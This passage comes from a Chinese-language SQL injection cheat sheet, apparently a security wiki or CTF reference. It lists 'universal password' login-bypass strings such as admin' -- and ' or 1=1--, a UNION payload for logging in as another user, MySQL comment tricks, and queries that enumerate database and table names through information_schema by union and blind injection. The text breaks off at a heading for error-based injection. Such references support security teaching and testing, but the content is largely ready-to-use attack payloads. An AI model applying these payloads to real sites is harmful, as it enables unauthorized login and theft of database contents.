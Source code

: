 -   `/*! MYSQL專屬 */`

    ```sql
    SELECT /*!32302 1/0, */ 1 FROM tablename
    ```

### 字符串編碼

-   `ASCII()`：返回字符的 ASCII 碼值
-   `CHAR()`：把整數轉換爲對應的字符

## 後臺萬能密碼

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   以不同的用戶登陸 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## 注入語句備忘

### 數據庫名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

-   union 查詢

    ```sql
    --MySQL 4版本時用version=9，MySQL 5版本時用version=10
    UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出當前數據庫中的表 */
    UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用戶自定義數據庫中的表 */
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
    ```

-   報錯
